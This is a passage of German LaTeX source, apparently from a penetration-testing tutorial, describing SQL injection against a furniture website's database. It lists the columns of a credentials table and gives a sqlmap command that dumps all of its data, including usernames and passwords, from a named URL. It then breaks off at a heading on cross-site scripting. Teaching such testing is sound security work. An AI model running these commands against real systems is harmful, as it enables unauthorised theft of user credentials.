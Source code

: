 \begin{table}[h]
	\centering
	\begin{tabular}{|l|l|}
		\hline
		Database:          & acfurniture      \\ \hline
		Table              & settings         \\ \hline
		\multicolumn{2}{|l|}{{[}6 columns{]}} \\ \hline
		Column             & Type             \\ \hline
		activationcode     & varchar(2048)    \\ \hline
		email              & varchar(45)      \\ \hline
		id                 & int(11)          \\ \hline
		password           & varchar(1024)    \\ \hline
		status             & smallint(2)      \\ \hline
		username           & varchar(45)      \\ \hline
	\end{tabular}
	\caption{Ergebnis: Spalten}
\end{table}

Die \texttt{settings} Tabelle besteht aus 6 Spalten, und dies ist eigentlich ein Konto mit Anmeldeinformationen. Jetzt wird versucht diese Informationen auszugeben.\\

\textbf{D. Informationen aufdecken}\\

Man kann alle Daten in der Tabelle mit folgendem Befehl ausgeben:

\begin{LaTeXCode}[caption={Aufdeckung von alle Daten in der Tabelle},captionpos=b, label=LaTeXCode:alledatenausgeben1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/item.php?id=25" -D acfurniture -T settings --dump
\end{LaTeXCode}

Das Ergebnis sollte so aussehen:

\begin{figure}[h]
	\centering
	\texttt{[image: aufdeckungalledatenindertabelle.png]}
	\caption{Ergebnis: Alle Daten in der Tabelle}
\end{figure}

\subsection{Testen von Cross-Site-Scripting mit Burp}

